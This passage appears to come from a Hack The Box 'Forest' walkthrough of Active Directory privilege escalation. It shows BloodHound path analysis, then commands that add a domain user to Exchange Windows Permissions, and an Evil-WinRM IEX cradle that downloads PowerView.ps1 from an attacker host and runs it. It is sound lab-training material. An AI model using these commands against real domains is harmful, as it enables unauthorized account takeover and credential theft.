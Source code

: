     ```bash
    bloodhound
    ```
    
    - Drop file within bloodhound GUI
- Next we try to privileges escalate
    - Transfer winPEAS to Windows using smb share or certutil we used earlier
    - Execute winPEAS
- Viewing bloodhound and the “Shortest Path on the Owned Principal”
    - svc-alfresco is a member of Service Accounts
    - Service Accounts is a member of Privileged IT Accounts
    - Privileged IT Accounts is a member of Account Operators
    - Account Operators is a member of Exchanged Windows Permissions
    - Exchange Windows Permissions has WriteDacl permissions on HTB.LOCAL
        - Write DACL, or **Discretionary Access Control List**, allows a source security principal to modify the permissions of a target object.
- The Account Operators group grants limited account creation privileges to a user.
    - Members of this group can create and modify most types of accounts, including those of users, local groups, and global groups, and members can log in locally to domain controllers.
- Account Operator has DCSync rights on HTB.LOCAL
    
    ```bash
    DCSync is a process where domain controllers in an Active Directory environment synchronize data among themselves to ensure all controllers have up-to-date and consistent information. This replication includes updates to user accounts, passwords, and group memberships, which are vital for maintaining the security and integrity of the network across multiple servers.
    ```
    
- To abuse this we will create a new user first, in order to keep the current account safe, if we ever need it.
- To create a user:
    
    ```bash
    net user soulis iterative77 /add /domain
    ```
    
    ![Adduser](/assets/img/HTB/Forest_addUser.png)
    
- Adding the user to the group of Exchange Windows Permissions
    
    ```bash
    net group "Exchange Windows Permissions" /add soulis
    ```
    
- We use PowerView.ps1 to abuse WriteDacl
    - We can transfer file from Kali using SMB or certutil or use:
    
    ```bash
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.34:8000/PowerView.ps1')
    ```
    